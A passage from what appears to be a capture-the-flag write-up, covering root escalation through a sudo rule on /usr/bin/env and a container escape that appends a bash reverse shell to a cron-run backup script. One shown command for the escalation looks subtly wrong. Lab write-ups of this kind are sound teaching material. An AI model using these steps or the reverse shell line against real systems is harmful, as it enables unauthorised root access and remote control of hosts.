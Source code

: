 ### Privilege Escalation / Privileged Access

If we run: `sudo -l` we can see we can run `/usr/bin/env`:

```text
User www-data may run the following commands on b2deba11a79a:
    (root) NOPASSWD: /usr/bin/env
```

The `env` command is used to locate programs based on the `PATH` environment variable. This means we can run basically any command. So, we do this:

```bash
sudo -l /usr/bin/env bash
```

And we now have a primitive `root` prompt. Again, since even basic tools are not installed, we can't easily "upgrade" this shell. It's messy but it works.

#### Flag 3 of 4

Is located here: `cat /root/flag3.txt`

#### Flag 4 of 4

We're logged in as `root` in this primitive shell, but we still can't seem to do much, because we're running from within a container.

From snooping around, we find that there is a backup process in `/opt/backups` that appears to work with a folder that is shared between this container and the host (e.g. `/root/container`):

```bash
total 2892
drwxr-xr-x 2 root root    4096 Apr  8  2020 .
drwxr-xr-x 1 root root    4096 Sep 29 07:49 ..
-rwxr--r-- 1 root root     111 Sep 29 08:20 backup.sh
-rw-r--r-- 1 root root 2949120 Sep 29 08:20 backup.tar

```

Inside of that `backup.sh` we have:

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

We can also tell from the timestamp that this seems to run regularly. So, we might append a reverse shell command to connect back to a *NEW* Netcat instance that is running on port `9001` (remember that our current connection is already using port `9000`):

```bash
echo "bash -i >& /dev/tcp/10.6.90.119/9001 0>&1" >> backup.sh
```

> **TIP:** Remember that `>` creates or overwrites the file. `>>` create or appends to the end of the file.
{: .prompt-tip}
